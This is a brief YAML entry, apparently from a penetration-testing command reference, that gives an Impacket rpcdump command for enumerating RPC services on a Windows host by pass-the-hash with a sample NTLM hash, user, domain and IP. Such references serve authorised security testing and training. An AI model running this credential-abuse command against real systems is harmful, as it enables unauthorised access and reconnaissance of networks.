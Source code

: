 ```yaml
---
description: Enumerate RPC services on a remote Windows machine using Impacket's rpcdump with NTLM Pass-the-Hash.

Command Reference:
    Target IP: 10.10.10.1
    Domain: test.local
    Username: john
    Hash: 580B16D486D8D2CAFA00B314D41FA396 (NTLM hash)

command: |
  impacket-rpcdump -hashes 00000000000000000000000000000000:580B16D486D8D2CAFA00B314D41FA396 test.local/john@10.10.10.1

items:
  - Hash
  - Enumeration

services:
  - RPC
  - NTLM

OS:
  - Windows

attack_types:
  - Pass-the-Hash
  - Enumeration

references:
  - https://github.com/fortra/impacket
---
```

